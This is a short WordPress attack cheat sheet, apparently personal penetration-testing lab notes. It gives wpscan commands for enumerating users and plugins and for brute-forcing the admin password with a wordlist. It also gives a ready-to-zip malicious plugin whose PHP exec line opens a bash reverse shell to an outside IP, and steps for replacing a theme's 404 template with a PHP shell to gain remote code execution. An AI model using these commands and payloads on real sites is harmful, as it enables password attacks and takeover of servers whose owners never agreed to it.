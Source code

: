 ### Enum
```
sudo wpscan --url url -e vp,u
sudo wpscan --url url --usernames admin --passwords rockyou.txt
```


### Upload Plugin to RCE
```
<?php
/**
* Author: Saeed Bala
* Plugin Name: PHP Code Plugin
* Description: Shell Through Plugins
* Version: 1.0
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.185/443 0>&1'");
?>

zip -r plug.zip index.php
```
### Update Theme File to RCE 
```
1. Location: Backend -> Theme Editor -> Theme Files -> 404 Template
2. Replace with your rev php shell
3.Access the 404 Template
http://192.168.199.55/shenzi/404.php
```
